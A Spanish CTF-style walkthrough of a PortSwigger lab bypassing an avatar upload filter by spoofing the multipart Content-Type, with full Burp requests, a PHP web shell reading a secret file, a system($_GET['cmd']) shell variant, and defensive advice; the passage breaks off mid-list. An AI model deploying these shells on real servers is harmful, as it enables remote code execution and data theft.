





# PortSwigger Web Security Academy — File upload vulnerabilities Lab 2

## Web shell upload via Content-Type restriction bypass

**URL del lab:** `https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass`

**Categoría:** File upload vulnerabilities  
**Objetivo:** subir una web shell PHP, leer el archivo `/home/carlos/secret` y enviar el secreto en el botón **Submit solution**.  
**Credenciales:** `wiener:peter`

> Este documento está escrito como walkthrough técnico para un laboratorio controlado de PortSwigger Web Security Academy. La idea es entender el fallo, reproducirlo y saber cómo defenderlo.

---

## 1. Enunciado del laboratorio

El laboratorio indica:

> Este laboratorio contiene una funcionalidad vulnerable de subida de imágenes. Intenta impedir que los usuarios suban tipos de archivo inesperados, pero se basa en comprobar información controlable por el usuario para verificarlo.
>
> Para resolver el laboratorio, debes subir una web shell básica en PHP y usarla para exfiltrar el contenido del archivo `/home/carlos/secret`.
>
> Después, debes enviar ese secreto usando el botón proporcionado en el banner del laboratorio.
>
> Puedes iniciar sesión en tu propia cuenta con las credenciales `wiener:peter`.

La frase más importante del enunciado es esta:

> “se basa en comprobar información controlable por el usuario”

Eso nos está diciendo que la aplicación sí tiene un filtro, pero el filtro mira algo que el atacante puede manipular. En este caso, ese algo es el encabezado `Content-Type` de una parte del formulario `multipart/form-data`.

---

## 2. Qué cambia respecto al laboratorio anterior

En el laboratorio anterior de subida de archivos, la aplicación prácticamente no validaba nada. Podíamos subir directamente un archivo `shell.php` y el servidor lo aceptaba.

En este laboratorio, la aplicación intenta ser un poco más restrictiva. No acepta cualquier tipo de archivo. Cuando subimos una imagen con un tipo no permitido, la aplicación devuelve un error indicando que solo acepta:

```http
image/jpeg
image/png
```

A primera vista, eso parece una defensa. Pero es una defensa débil si el servidor solo comprueba el valor declarado en la petición HTTP.

La clave del lab es esta:

```http
Content-Type: image/png
```

Ese valor no lo genera una autoridad confiable. Lo manda el cliente. Y si lo manda el cliente, Burp Suite puede modificarlo.

---

## 3. Concepto clave: el `Content-Type` del upload no prueba el tipo real del archivo

Cuando subes un archivo usando un formulario web, el navegador envía una petición `multipart/form-data`. Cada parte del formulario puede tener su propio `Content-Type`.

Ejemplo normal al subir una imagen WebP:

```http
Content-Disposition: form-data; name="avatar"; filename="dragonairEspañol.webp"
Content-Type: image/webp

RIFF...
```

Ejemplo manipulado para subir una shell PHP disfrazada:

```http
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: image/png

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

La parte peligrosa es que el servidor puede pensar:

> “Si el `Content-Type` dice `image/png`, entonces será una imagen PNG”.

Eso es incorrecto.

El `Content-Type` en esta parte de la petición es solo una declaración enviada por el cliente. No convierte el archivo en PNG. No cambia el contenido. No cambia la extensión. No cambia los bytes reales. Es como poner una etiqueta falsa encima de una caja.

Si dentro de la caja hay PHP, seguirá siendo PHP.

---

## 4. Diferencia entre tipo declarado y tipo real

Hay varias formas de “identificar” un archivo, y no todas tienen el mismo nivel de confianza.

### 4.1. Extensión

Ejemplo:

```text
foto.png
shell.php
avatar.jpg
```

La extensión es fácil de falsificar. Un atacante puede llamar a un archivo `foto.jpg` aunque por dentro contenga código PHP.

### 4.2. `Content-Type` enviado por el navegador

Ejemplo:

```http
Content-Type: image/png
```

También es fácil de falsificar. Burp Suite permite editarlo manualmente antes de que llegue al servidor.

### 4.3. Magic bytes o firma real del archivo

Los archivos reales suelen empezar con bytes característicos.

Por ejemplo, un PNG real suele empezar con:

```text
89 50 4E 47 0D 0A 1A 0A
```

Un JPEG suele empezar con:

```text
FF D8 FF
```

Un archivo PHP suele empezar con texto como:

```php
<?php
```

Validar magic bytes es más fuerte que confiar en `Content-Type`, aunque tampoco debe ser la única defensa en una arquitectura segura.

### 4.4. Procesamiento real de imagen

Una defensa más robusta consiste en abrir el archivo como imagen real y reescribirlo desde cero. Por ejemplo, cargarlo con una librería de imágenes y volver a guardarlo como PNG/JPEG limpio. Eso elimina código embebido y confirma que el archivo es realmente una imagen procesable.

### 4.5. La defensa crítica: impedir ejecución en el directorio de uploads

Aunque todas las validaciones fallen, la medida más importante es que el directorio donde se guardan los uploads no ejecute código.

Si el atacante sube `shell.php`, pero el servidor sirve ese archivo como texto o descarga y no lo pasa al intérprete PHP, no hay RCE.

En este lab, el problema completo se da porque ocurren dos cosas a la vez:

1. La aplicación acepta un archivo PHP manipulando el `Content-Type`.
2. El directorio `/files/avatars/` permite que un archivo `.php` se ejecute.

---

## 5. Qué es una web shell en este laboratorio

Una web shell es un archivo subido al servidor que contiene código ejecutable por el servidor web.

En este lab no necesitamos una shell interactiva compleja. Solo necesitamos una shell mínima que lea el secreto de Carlos:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Desglose:

```php
<?php
```

Abre el bloque PHP.

```php
echo
```

Imprime algo en la respuesta HTTP.

```php
file_get_contents('/home/carlos/secret')
```

Lee el contenido del archivo `/home/carlos/secret`.

```php
?>
```

Cierra el bloque PHP.

Cuando el servidor ejecute este archivo, la respuesta HTTP contendrá directamente el secreto.

---

## 6. Por qué esto es RCE

RCE significa **Remote Code Execution**, ejecución remota de código.

Aquí no estamos simplemente subiendo un archivo. Estamos consiguiendo que el servidor ejecute código elegido por nosotros.

El flujo es:

```text
Atacante sube shell.php
        ↓
Servidor guarda shell.php en /files/avatars/
        ↓
Atacante visita /files/avatars/shell.php
        ↓
Apache/PHP ejecuta el código PHP
        ↓
El código lee /home/carlos/secret
        ↓
La respuesta HTTP contiene el secreto
```

La vulnerabilidad no es únicamente “puedo subir un archivo”. La vulnerabilidad real es:

```text
Puedo subir un archivo ejecutable + puedo ejecutarlo desde el navegador
```

Eso es lo que convierte un upload inseguro en RCE.

---

## 7. Inicio práctico del laboratorio

Al iniciar el laboratorio, se abre una web de tipo blog con el encabezado del lab:



La página muestra el título:

```text
Web shell upload via Content-Type restriction bypass
```

El banner superior incluye el botón **Submit solution**, que se usará al final para enviar el secreto.

La aplicación tiene la sección **My account**. El enunciado nos proporciona credenciales válidas:

```text
Username: wiener
Password: peter
```

Nos autenticamos con `wiener:peter` y entramos en el panel de cuenta.

---

## 8. Localización de la funcionalidad vulnerable

Dentro de **My account**, aparece la funcionalidad de subida de avatar:



La zona relevante es:

```text
Avatar:
[Browse...] [No file selected]
[Upload]
```

Esto ya nos indica que hay una funcionalidad de subida de archivos. Como el laboratorio es de file upload vulnerabilities, este es el punto principal de ataque.

En una auditoría real, una funcionalidad así se analizaría con preguntas como:

- ¿Qué extensiones permite?
- ¿Qué `Content-Type` permite?
- ¿Comprueba magic bytes?
- ¿Renombra el archivo?
- ¿Dónde lo guarda?
- ¿Se puede acceder directamente al archivo subido?
- ¿El directorio de subida ejecuta código?
- ¿El servidor interpreta `.php`, `.phtml`, `.php5` u otras extensiones?

En este lab, el foco está en el `Content-Type`.

---

## 9. Captura de una subida normal con Burp Suite

Abrimos Burp Suite, activamos FoxyProxy o el proxy correspondiente en el navegador, y subimos un archivo normal desde el formulario del avatar.

La petición capturada es parecida a esta:

```http
POST /my-account/avatar HTTP/2
Host: 0a670024033523348131c5f6003f0057.web-security-academy.net
Cookie: session=yyXcEJcBjabUWjQ7QspUCxJCybTUa7xJ
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a670024033523348131c5f6003f0057.web-security-academy.net/my-account?id=wiener
Content-Type: multipart/form-data; boundary=----geckoformboundary60d2538f43cbf451191dd213736266d0
Content-Length: 41226
Origin: https://0a670024033523348131c5f6003f0057.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

------geckoformboundary60d2538f43cbf451191dd213736266d0
Content-Disposition: form-data; name="avatar"; filename="dragonairEspañol.webp"
Content-Type: image/webp

RIFF$...
```

Lo más importante de la petición es:

```http
POST /my-account/avatar
```

Ese es el endpoint de subida del avatar.

También es importante:

```http
Content-Type: multipart/form-data; boundary=----geckoformboundary60d2538f43cbf451191dd213736266d0
```

Eso indica que la petición es un formulario multipart. Dentro del cuerpo, cada parte está separada por el boundary.

La parte del archivo contiene:

```http
Content-Disposition: form-data; name="avatar"; filename="dragonairEspañol.webp"
Content-Type: image/webp
```

Aquí vemos tres datos clave:

- El campo del formulario se llama `avatar`.
- El nombre original del archivo es `dragonairEspañol.webp`.
- El tipo declarado por el cliente es `image/webp`.

---

## 10. Qué es `multipart/form-data` y por qué aparece aquí

Cuando un formulario sube archivos, no puede enviar el cuerpo como un simple:

```text
avatar=contenido
```

Eso no funciona bien para datos binarios. Por eso se usa:

```http
Content-Type: multipart/form-data
```

La petición se divide en partes. Cada parte tiene sus propias cabeceras.

Ejemplo conceptual:

```http
------boundary
Content-Disposition: form-data; name="avatar"; filename="foto.png"
Content-Type: image/png

[bytes del archivo]
------boundary
Content-Disposition: form-data; name="user"

wiener
------boundary
Content-Disposition: form-data; name="csrf"

TOKEN
------boundary--
```

El `boundary` sirve para decir dónde empieza y termina cada bloque.

Esto permite enviar en una misma petición:

- campos de texto;
- tokens CSRF;
- nombres de usuario;
- archivos binarios;
- metadatos del archivo.

En el ataque, manipulamos la parte del archivo.

---

## 11. Primer hallazgo: `image/webp` es rechazado

Mandamos la petición con:

```http
Content-Type: image/webp
```

El servidor responde:

```http
HTTP/2 403 Forbidden
Date: Sat, 09 May 2026 18:49:53 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 224

Sorry, file type image/webp is not allowed
Only image/jpeg and image/png are allowed
Sorry, there was an error uploading your file.
<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Este mensaje es oro para nosotros, porque nos revela exactamente qué está comprobando la aplicación.

Dice:

```text
Sorry, file type image/webp is not allowed
Only image/jpeg and image/png are allowed
```

Eso indica que la aplicación está mirando el tipo declarado en la petición. Como hemos enviado `image/webp`, lo rechaza.

La pregunta importante es:

> ¿Está comprobando el contenido real del archivo o solo el `Content-Type` enviado por el cliente?

Para comprobarlo, hacemos una prueba sencilla.

---

## 12. Prueba de bypass: cambiar solo el `Content-Type`

Dejamos el mismo archivo WebP, pero cambiamos:

```http
Content-Type: image/webp
```

por:

```http
Content-Type: image/png
```

Es decir, no convertimos el archivo a PNG. No cambiamos sus bytes. Solo mentimos en la cabecera de esa parte del formulario.

El servidor responde:

```http
HTTP/2 200 OK
Date: Sat, 09 May 2026 18:56:23 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 143

The file avatars/dragonairEspañol.webp has been uploaded.
<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Esto confirma el fallo.

Si cambiar únicamente `Content-Type` de `image/webp` a `image/png` hace que el archivo sea aceptado, entonces el backend está confiando en un dato controlado por el usuario.

En la cuenta se ve el avatar subido:



Este paso es muy importante porque prueba la hipótesis antes de intentar subir la shell.

---

## 13. Interpretación del 403 y del 200

El `403 Forbidden` inicial no significa que la aplicación sea segura. Significa que tiene una validación superficial.

La secuencia real es:

```text
Subo WebP con Content-Type image/webp
        ↓
Servidor mira Content-Type
        ↓
No está en la lista permitida
        ↓
403 Forbidden
```

Luego:

```text
Subo el mismo WebP con Content-Type image/png
        ↓
Servidor mira Content-Type
        ↓
Está en la lista permitida
        ↓
200 OK
```

Eso demuestra que el servidor no está validando correctamente el archivo. Está validando una etiqueta que el atacante puede falsificar.

---

## 14. Preparación de la web shell

Ahora construimos la shell PHP que necesitamos para leer el secreto:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

El nombre del archivo debe tener extensión `.php`, por ejemplo:

```text
shell.php
```

Esto es importante porque, cuando se visite el archivo subido, Apache/PHP normalmente decide si ejecutarlo en función de la extensión.

La aplicación intentará validar el tipo durante el upload mirando `Content-Type`, pero el servidor web ejecutará el archivo después por ser `.php`.

Ahí está la contradicción explotable:

```text
Durante la subida: digo que es image/png
Durante la ejecución: el servidor ve shell.php y lo ejecuta como PHP
```

---

## 15. Petición maliciosa final de subida

Modificamos la petición del upload en Burp Suite para que la parte del archivo quede así:

```http
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: image/png

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Petición completa:

```http
POST /my-account/avatar HTTP/2
Host: 0a670024033523348131c5f6003f0057.web-security-academy.net
Cookie: session=yyXcEJcBjabUWjQ7QspUCxJCybTUa7xJ
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a670024033523348131c5f6003f0057.web-security-academy.net/my-account?id=wiener
Content-Type: multipart/form-data; boundary=----geckoformboundary60d2538f43cbf451191dd213736266d0
Content-Length: 41225
Origin: https://0a670024033523348131c5f6003f0057.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary60d2538f43cbf451191dd213736266d0
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: image/png

<?php echo file_get_contents('/home/carlos/secret'); ?>
------geckoformboundary60d2538f43cbf451191dd213736266d0
Content-Disposition: form-data; name="user"

wiener
------geckoformboundary60d2538f43cbf451191dd213736266d0
Content-Disposition: form-data; name="csrf"

xXxOxjkyKHL8yg6QH5gLNEXvd3VUAbXT
------geckoformboundary60d2538f43cbf451191dd213736266d0--
```

Puntos importantes:

```http
filename="shell.php"
```

El archivo se guardará con extensión PHP.

```http
Content-Type: image/png
```

La aplicación aceptará la subida porque cree que es una imagen permitida.

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

El contenido real es PHP, no PNG.

---

## 16. Respuesta del servidor tras subir la shell

El servidor responde:

```http
HTTP/2 200 OK
Date: Sat, 09 May 2026 18:59:44 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 130

The file avatars/shell.php has been uploaded.
<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Esto confirma varias cosas:

1. La subida ha sido aceptada.
2. El archivo se ha guardado como `shell.php`.
3. El bypass del `Content-Type` ha funcionado.
4. La aplicación no ha bloqueado la extensión `.php`.
5. La aplicación no ha inspeccionado el contenido real.

El mensaje crítico es:

```text
The file avatars/shell.php has been uploaded.
```

Ahora necesitamos ejecutar el archivo.

---

## 17. Localización de la ruta de ejecución

En el laboratorio anterior ya vimos la ruta donde se sirven los avatares:

```text
/files/avatars/NOMBRE_DEL_ARCHIVO
```

Por tanto, si el archivo subido se llama:

```text
shell.php
```

La ruta probable será:

```text
/files/avatars/shell.php
```

El navegador, al intentar mostrar el avatar, también puede generar automáticamente una petición GET a esa ruta. Si no aparece claramente, podemos hacerla manualmente en Burp Repeater.

---

## 18. Ejecución de la shell mediante GET

La petición para ejecutar la shell es:

```http
GET /files/avatars/shell.php HTTP/2
Host: 0a670024033523348131c5f6003f0057.web-security-academy.net
Cookie: session=yyXcEJcBjabUWjQ7QspUCxJCybTUa7xJ
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a670024033523348131c5f6003f0057.web-security-academy.net/my-account
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Priority: u=5, i
Te: trailers
```

Aunque las cabeceras digan cosas como:

```http
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Sec-Fetch-Dest: image
```

eso no impide que PHP se ejecute. Esas cabeceras solo describen lo que el navegador esperaba recibir. Lo importante es cómo el servidor procesa el archivo `.php`.

Si Apache/PHP está configurado para ejecutar PHP en esa ruta, el archivo no se devolverá como texto plano. Se ejecutará.

---

## 19. Respuesta con el secreto

Al enviar el GET a `/files/avatars/shell.php`, la respuesta es:

```http
HTTP/2 200 OK
Date: Sat, 09 May 2026 19:01:36 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

Xh8Ez1wRmmL7f5xp4Vsmsn5216AlYHAz
```

El secreto es:

```text
Xh8Ez1wRmmL7f5xp4Vsmsn5216AlYHAz
```

Esto confirma completamente la explotación:

```text
Subida PHP aceptada
        ↓
Archivo accesible en /files/avatars/shell.php
        ↓
Servidor ejecuta PHP
        ↓
PHP lee /home/carlos/secret
        ↓
Secreto devuelto en la respuesta
```

---

## 20. Envío de la solución

Con el secreto obtenido, hacemos clic en el botón **Submit solution** del banner del laboratorio.

Aparece un cuadro donde introducimos:

```text
Xh8Ez1wRmmL7f5xp4Vsmsn5216AlYHAz
```



Después de enviar el secreto, el laboratorio aparece como resuelto:



---

## 21. Flujo completo resumido

El ataque completo queda así:

```text
1. Iniciar sesión como wiener:peter
        ↓
2. Ir a My account
        ↓
3. Localizar la subida de avatar
        ↓
4. Subir una imagen normal y capturar la petición
        ↓
5. Observar que image/webp es rechazado
        ↓
6. Cambiar Content-Type a image/png
        ↓
7. Confirmar que la aplicación acepta el archivo
        ↓
8. Crear shell.php con:
   <?php echo file_get_contents('/home/carlos/secret'); ?>
        ↓
9. Subir shell.php declarando Content-Type: image/png
        ↓
10. La aplicación acepta shell.php
        ↓
11. Acceder a /files/avatars/shell.php
        ↓
12. El servidor ejecuta PHP
        ↓
13. La respuesta contiene el secreto
        ↓
14. Enviar el secreto en Submit solution
        ↓
15. Laboratorio resuelto
```

---

## 22. Por qué la aplicación es vulnerable

La aplicación es vulnerable por una combinación de errores.

### 22.1. Confía en `Content-Type`

El servidor decide si acepta o rechaza un archivo basándose en:

```http
Content-Type: image/png
```

Pero ese valor es controlado por el cliente. Burp Suite puede cambiarlo sin dificultad.

### 22.2. Permite extensión `.php`

Aunque el archivo se declara como `image/png`, el nombre sigue siendo:

```text
shell.php
```

La aplicación no bloquea extensiones ejecutables.

### 22.3. No valida el contenido real

El contenido real del archivo es:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

No es una imagen PNG. Si la aplicación validara magic bytes o reprocesara la imagen, debería rechazarlo.

### 22.4. Guarda uploads en una ruta ejecutable

El archivo queda accesible en:

```text
/files/avatars/shell.php
```

Y el servidor lo ejecuta como PHP. Esta es la condición que convierte el fallo de subida en RCE.

---

## 23. Diferencia entre validar durante upload y ejecutar después

Este lab es muy bueno porque muestra que hay dos momentos distintos:

### Momento 1: subida

La aplicación recibe:

```http
filename="shell.php"
Content-Type: image/png
```

Y decide:

```text
Content-Type permitido → aceptar
```

### Momento 2: acceso posterior

El navegador pide:

```http
GET /files/avatars/shell.php
```

Apache/PHP decide:

```text
Extensión .php → ejecutar como PHP
```

Ahí aparece el fallo de diseño.

El filtro mira una cosa durante la subida, pero el servidor usa otra cosa durante la ejecución.

---

## 24. Por qué el `Content-Type: image/png` no cambia el archivo

Es importante repetirlo porque es la idea central del lab:

```http
Content-Type: image/png
```

no transforma esto:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

en una imagen PNG.

Solo cambia una cabecera textual dentro de la petición HTTP.

Una analogía simple:

```text
Archivo real: shell.php
Contenido real: código PHP
Etiqueta pegada encima: image/png
```

La etiqueta miente, pero el contenido sigue siendo código PHP.

---

## 25. Qué habría pasado si el servidor no ejecutara PHP en `/files/avatars/`

Si el directorio de uploads estuviera bien configurado, al acceder a:

```text
/files/avatars/shell.php
```

podrían pasar dos cosas seguras:

1. El servidor devuelve el archivo como descarga.
2. El servidor muestra el contenido como texto plano.

En cualquiera de esos casos no habría ejecución de código.

Lo peligroso es que el servidor interpreta el `.php`.

Por eso una defensa muy fuerte es configurar el directorio de uploads como no ejecutable.

---

## 26. Variantes de web shell y por qué aquí usamos una mínima

Una web shell genérica suele ser más flexible, por ejemplo:

```php
<?php system($_GET['cmd']); ?>
```

Eso permitiría ejecutar comandos mediante:

```text
/files/avatars/shell.php?cmd=id
/files/avatars/shell.php?cmd=whoami
/files/avatars/shell.php?cmd=cat%20/home/carlos/secret
```

Pero para este lab no hace falta una shell interactiva. El objetivo está claramente definido: leer `/home/carlos/secret`.

Por eso es suficiente:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Es más simple, más directo y reduce errores.

---

## 27. Análisis del mensaje de error

El mensaje:

```text
Sorry, file type image/webp is not allowed
Only image/jpeg and image/png are allowed
```

nos da mucha información.

Indica que la aplicación probablemente no está mirando la extensión, porque el archivo se llamaba `.webp` y el mensaje se centra en:

```text
file type image/webp
```

Eso sugiere que el servidor extrajo el tipo desde la parte multipart:

```http
Content-Type: image/webp
```

Si estuviera validando extensión, esperaría un mensaje más parecido a:

```text
Extension .webp is not allowed
```

Si estuviera validando magic bytes, probablemente no bastaría con cambiar el `Content-Type` a `image/png` para que el mismo archivo WebP pasara.

La respuesta 200 tras cambiar solo el `Content-Type` confirma que el filtro es débil.

---

## 28. Qué revela el `Server: Apache/2.4.41 (Ubuntu)`

En las respuestas aparece:

```http
Server: Apache/2.4.41 (Ubuntu)
```

Eso nos indica que el servidor web es Apache sobre Ubuntu.

En este tipo de labs, Apache suele estar configurado con PHP. Si un archivo `.php` queda dentro de una ruta donde Apache lo pasa al intérprete PHP, se ejecutará.

No hace falta explotar Apache. La aplicación nos permite poner un archivo PHP en un lugar donde Apache lo ejecuta.

---

## 29. Qué significa `Content-Type: text/html; charset=UTF-8` en la respuesta de la shell

Cuando ejecutamos:

```http
GET /files/avatars/shell.php
```

la respuesta contiene:

```http
Content-Type: text/html; charset=UTF-8
```

Eso tiene sentido porque PHP imprime texto en una respuesta HTML. No se devuelve como `image/png`.

Esto es otra señal de que el archivo fue interpretado por PHP y no servido como imagen.

Si el servidor sirviera el archivo como imagen falsa, quizá veríamos otro tipo de respuesta o errores de renderizado. Aquí vemos directamente el resultado de `echo`.

---

## 30. Indicadores claros de explotación exitosa

Sabemos que el ataque ha funcionado por varios indicadores:

1. El servidor acepta `shell.php`:

```text
The file avatars/shell.php has been uploaded.
```

2. El archivo es accesible en:

```text
/files/avatars/shell.php
```

3. La respuesta no contiene el código PHP literal.

No vemos:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Vemos el resultado:

```text
Xh8Ez1wRmmL7f5xp4Vsmsn5216AlYHAz
```

4. El laboratorio se marca como solved tras enviar el secreto.

---

## 31. Diferencia con una simple subida de archivo malicioso

Subir un archivo PHP a una aplicación no siempre implica RCE.

Para que haya RCE tienen que cumplirse varias condiciones:

```text
1. La aplicación permite subir el archivo.
2. La aplicación conserva una extensión ejecutable.
3. El archivo se guarda en una ruta accesible.
4. El servidor ejecuta esa extensión.
5. El atacante puede invocar el archivo subido.
```

En este lab se cumplen todas.

Si cualquiera de esas condiciones falla, el impacto baja.

Por ejemplo:

- Si renombra a `.jpg`, quizá no se ejecuta como PHP.
- Si guarda fuera del webroot, no puedes acceder directamente.
- Si la carpeta no ejecuta PHP, no hay RCE.
- Si reencodea la imagen, destruye el PHP.

---

## 32. Cómo debería defenderse correctamente

Una defensa robusta no debe depender de una sola comprobación.

### 32.1. No confiar en `Content-Type`

El `Content-Type` del upload debe considerarse no confiable.

Puede usarse como señal auxiliar, pero nunca como control de seguridad principal.

### 32.2. Validar extensión con allowlist

Permitir únicamente extensiones seguras:

```text
.jpg
.jpeg
.png
```

No usar blacklist de extensiones peligrosas, porque hay muchas variantes:

```text
.php
.phtml
.php5
.phar
```

### 32.3. Validar magic bytes

Comprobar que el archivo realmente tenga firma de imagen.

### 32.4. Reprocesar la imagen

La defensa más sólida para imágenes es abrirlas y volver a guardarlas con una librería segura.

Por ejemplo:

```text
input upload → librería de imagen → nuevo PNG/JPEG limpio
```

### 32.5. Renombrar archivos

Nunca guardar con el nombre enviado por el usuario.

Malo:

```text
shell.php
```

Mejor:

